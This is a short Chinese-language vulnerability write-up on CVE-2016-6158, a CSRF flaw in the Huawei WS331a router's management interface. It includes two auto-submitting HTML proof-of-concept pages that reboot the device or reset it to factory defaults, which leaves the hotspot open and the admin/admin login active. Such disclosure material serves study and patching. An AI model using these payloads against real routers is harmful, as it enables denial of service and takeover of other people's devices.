 # （CVE-2016-6158）华为 WS331a 产品管理页面存在 CSRF 漏洞

> 原文：[http://book.iwonder.run/iot/Huawei/CVE-2016-6158.html](http://book.iwonder.run/iot/Huawei/CVE-2016-6158.html)

## 一、漏洞简介

HuaweiWS331a 是中国华为（Huawei）公司的一款迷你无线路由器。使用 WS331a-10V100R001C01B112 之前版本软件的 HuaweiWS331a 路由器的管理界面存在跨站请求伪造漏洞。远程攻击者可通过提交特制的请求利用该漏洞恢复出厂设置或重启设备。

## 二、漏洞影响

WS331a-10 V100R001C02B017SP01 及之前版本

## 三、复现过程

### POC 实现代码如下：

> 当管理员登陆后，打开如下 poc 页面，WS331a 设备将重启。

```
<form action="http://192.168.3.1/api/service/reboot.cgi" method="post">
</form>
<script> document.forms[0].submit(); </script> 
```

> 当管理员登陆后，打开如下 poc 页面，WS331a 设备将恢复初始化配置。设备自动重启后不需要密码即可连接热点，并使用 amdin/admin 对设备进行管理控制。

```
<form action="http://192.168.3.1/api/service/restoredefcfg.cgi" method="post">
</form>
<script> document.forms[0].submit(); </script> 
```

